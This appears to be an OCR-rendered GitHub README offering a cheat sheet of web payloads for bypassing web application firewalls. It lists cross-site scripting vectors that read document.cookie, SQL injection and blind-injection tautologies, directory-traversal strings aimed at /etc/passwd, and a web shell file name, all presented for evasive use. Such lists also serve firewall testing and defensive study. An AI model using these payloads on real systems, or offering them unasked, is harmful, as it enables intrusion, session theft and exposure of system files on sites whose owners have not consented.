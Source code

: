 The following are the simple payloads that can be used to bypass WAFs.
> Note: Since these are pretty common, this may not work 100% of the time.
## Cross-Site Scripting
- `prompt('xss')`
- `prompt(8)`
- `confirm('xss')`
- `confirm(8)`
- `alert(/xss/.source)`
- `window[/alert/.source](8)`
- `with(document)alert(cookie)`
- `alert(document['cookie'])`
- `alert(document[/cookie/.source])`
- `alert(document[/coo/.source+kie/.source])`
- `<svg/onload=alert(1)>`
- `<video src=x onerror=alert(1);>`
- `<audio src=x onerror=alert(1);>`
- `javascript:alert(document.cookie)`
- `data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`
## SQL Injection UNION
- `UNION ALL SELECT`
## Blind SQL Injection
- `' or 6=6`
- `' or 0x47=0x47`
- `or char(32)=''`
- `or 6 is not null`
## Directory Traversal
- `/too/../etc/far/../passwd`
- `/etc//passwd`
- `/etc/ignore/../passwd`
- `/etc/passwd.......`
## Web Shell
- `augh.php`